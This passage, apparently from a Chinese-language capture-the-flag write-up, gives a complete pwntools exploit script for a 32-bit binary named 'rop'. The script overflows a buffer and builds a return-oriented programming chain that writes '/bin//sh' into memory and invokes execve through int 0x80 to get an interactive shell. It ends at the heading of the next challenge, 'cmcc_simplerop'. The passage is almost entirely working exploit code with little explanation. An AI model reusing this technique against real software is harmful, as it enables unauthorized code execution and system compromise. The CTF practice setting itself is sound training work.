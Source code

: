 构造`payload`得到`shell`

```python
from pwn import *
from struct import pack
io = process('./rop')
padding = b'A'*(0xC+0x4)

p = b''
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de769) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0806c943) # int 0x80
payload = padding + p
io.sendline(payload)
io.interactive()
```

# cmcc_simplerop

![image-20240104201935763](../assets/img/old_imgs/image-20240104201935763.png)
